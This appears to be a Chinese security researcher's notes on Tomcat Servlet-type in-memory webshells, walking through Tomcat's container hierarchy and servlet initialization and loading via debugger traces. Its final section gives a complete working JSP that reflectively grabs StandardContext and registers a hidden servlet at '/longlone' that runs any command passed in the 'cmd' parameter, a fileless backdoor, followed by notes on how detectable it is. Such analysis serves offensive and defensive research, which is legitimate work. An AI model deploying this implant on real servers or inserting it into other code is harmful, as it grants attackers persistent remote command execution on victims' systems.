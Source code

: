 ```yaml
---
created: '22/02/16'
title: Tomcat-Servlet型内存马
tags:
  - java
  - java安全
  - 内存马
---
```

# Tomcat-Servlet型内存马

## 参考文章
- https://blog.csdn.net/angry_program/article/details/118492214
- https://www.jianshu.com/p/ed74f6e1cbdb

## Tomcat与Servlet
要想了解如何动态注册Servlet，我们需要对tomcat有一个更好的认识:
> Tomcat 服务器是一个免费的开放源代码的Web 应用服务器，Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，它早期的名称为catalina，后来由Apache、Sun 和其他一些公司及个人共同开发而成，并更名为Tomcat。Tomcat 是一个小型的轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选，因为Tomcat 技术先进、性能稳定，成为目前比较流行的Web 应用服务器。Tomcat是应用（java）服务器，它只是一个servlet容器，是Apache的扩展，但它是独立运行的。


Tomcat由四大容器组成，分别是Engine、Host、Context、Wrapper。这四个组件是负责关系，存在包含关系。只包含一个引擎（Engine）：
> Engine（引擎）：表示可运行的Catalina的servlet引擎实例，并且包含了servlet容器的核心功能。在一个服务中只能有一个引擎。同时，作为一个真正的容器，Engine元素之下可以包含一个或多个虚拟主机。它主要功能是将传入请求委托给适当的虚拟主机处理。如果根据名称没有找到可处理的虚拟主机，那么将根据默认的Host来判断该由哪个虚拟主机处理。
> 
> Host （虚拟主机）：作用就是运行多个应用，它负责安装和展开这些应用，并且标识这个应用以便能够区分它们。它的子容器通常是 Context。一个虚拟主机下都可以部署一个或者多个Web App，每个Web App对应于一个Context，当Host获得一个请求时，将把该请求匹配到某个Context上，然后把该请求交给该Context来处理。主机组件类似于Apache中的虚拟主机，但在Tomcat中只支持基于FQDN(完全合格的主机名)的“虚拟主机”。Host主要用来解析web.xml
> 
> Context（上下文）：代表 Servlet 的 Context，它具备了 Servlet 运行的基本环境，它表示Web应用程序本身。Context 最重要的功能就是管理它里面的 Servlet 实例，一个Context代表一个Web应用，一个Web应用由一个或者多个Servlet实例组成。
> 
> Wrapper（包装器）：代表一个 Servlet，它负责管理一个 Servlet，包括的 Servlet 的装载、初始化、执行以及资源回收。Wrapper 是最底层的容器，它没有子容器了，所以调用它的 addChild 将会报错。 

![](https://gitee.com/guuest/images/raw/master/img/20220217164552.png)

其中webapps文件夹即是我们的Host，webapps中的文件夹(如examples/ROOT)代表一个Context，每个Context内包含Wrapper，Wrapper 则负责管理容器内的 Servlet。

实际上，在Tomcat7之后的版本，StandardContext中提供了动态注册Servlet的方法，但是并未实现:
![](https://gitee.com/guuest/images/raw/master/img/20220217164912.png)

所以我们需要自己去实现动态添加Servlet的功能，在此之前我们需要了解Servlet的生命周期(主要关注初始化和装载)。

## Servlet初始化流程分析
在`org.apache.catalina.core.StandardWrapper#setServletClass()`处下断点调试，回溯到上一层的`ContextConfig.configureConetxt()`:
![](https://gitee.com/guuest/images/raw/master/img/20220217165809.png)
在这里我们可以很清楚地看到Wrapper的初始化流程，首先调用创建了wrapper，然后调用set方法配置wrapper相关的属性，我们可以参考web.xml中需要配置的属性来推测wrapper的关键属性(即图中红框)，需要留意的一个特殊属性是load-on-startup属性，它是一个启动优先级，后续再分析:
![](https://gitee.com/guuest/images/raw/master/img/20220217170042.png)
接着继续配置wrapper的servletClass:
![](https://gitee.com/guuest/images/raw/master/img/20220217170428.png)
配置完成之后会将wrapper放入StandardContext的child里:
![](https://gitee.com/guuest/images/raw/master/img/20220217170635.png)
接着会遍历web.xml中servlet-mapping的servlet-name和对应的url-pattern，调用`StandardContext.addServletMappingDecoded()`添加servlet对应的映射:
![](https://gitee.com/guuest/images/raw/master/img/20220217170953.png)

总结一下，Servlet的初始化一共有几个步骤:
1. 通过 context.createWapper() 创建 Wapper 对象
2. 设置 Servlet 的 LoadOnStartUp 的值(后续分析为什么动态注册Servlet需要设置该属性)
3. 设置 Servlet 的 Name
4. 设置 Servlet 对应的 Class
5. 将 Servlet 添加到 context 的 children 中
6. 将 url 路径和 servlet 类做映射

## Servlet装载流程分析
在` org.apache.catalina.core.StandardWapper#loadServlet()`处下断点调试，回溯到`StandardContext.startInternal()`方法:
![](https://gitee.com/guuest/images/raw/master/img/20220217171608.png)
可以看到，是在加载完Listener和Filter之后，才装载Servlet:
![](https://gitee.com/guuest/images/raw/master/img/20220217171746.png)
这里调用了`findChildren()`方法从StandardContext中拿到所有的child并传到`loadOnStartUp()`方法处理，跟到`loadOnstartup()`，可以根据代码和注释了解到这个方法会将所有load-on-startup属性大于0的wrapper加载(反之则不会)，这也是为什么上文我们提到需要关注这个属性的原因:
![](https://gitee.com/guuest/images/raw/master/img/20220217172024.png)
根据搜索，我们了解到load-on-startup属性的作用:
> load-on-startup 这个元素的含义是在服务器启动的时候就加载这个servlet(实例化并调用init()方法). 这个元素中的可选内容必须为一个整数,表明了这个servlet被加载的先后顺序. 当是一个负数时或者没有指定时，则表示服务器在该servlet被调用时才加载。

可以看到当未设置load-on-startup属性是，tomcat采用的是一种懒加载的机制，只有servlet被调用时才会加载到Context中。

由于我们需要动态注册Servlet，为了使其被加载，我们必须设置load-on-startup属性。

## 内存马实现流程分析
根据上述的流程分析，我们可以模仿上述的加载机制手动注册一个servlet:
1. 找到StandardContext
2. 继承并编写一个恶意servlet
3. 通过 context.createWapper() 创建 Wapper 对象
2. 设置 Servlet 的 LoadOnStartUp 的值
3. 设置 Servlet 的 Name
4. 设置 Servlet 对应的 Class
5. 将 Servlet 添加到 context 的 children 中
6. 将 url 路径和 servlet 类做映射

以下是代码的具体实现:
```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.catalina.connector.Request" %>

<%
    class S implements Servlet{

        @Override
        public void init(ServletConfig config) throws ServletException {

        }

        @Override
        public ServletConfig getServletConfig() {
            return null;
        }

        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {}
            }
        }

        @Override
        public String getServletInfo() {
            return null;
        }

        @Override
        public void destroy() {

        }
    }
%>

<%
    // ServletContext servletContext =  request.getServletContext();
    // Field appctx = servletContext.getClass().getDeclaredField("context");
    // appctx.setAccessible(true);
    // ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    // Field stdctx = applicationContext.getClass().getDeclaredField("context");
    // stdctx.setAccessible(true);
    // StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    // 更简单的方法 获取StandardContext
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();

    S servlet = new S();
    String name = servlet.getClass().getSimpleName();
    Wrapper newWrapper = standardContext.createWrapper();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
    standardContext.addChild(newWrapper);
    standardContext.addServletMappingDecoded("/longlone", name);
    
    out.println("inject success");
%>
```

## 优缺点分析
缺点:
- 这种类型的内存马需要访问具体路径才能够命令执行，日志中比较容易被发现


优点:
- 兼容性强，兼容tomcat7
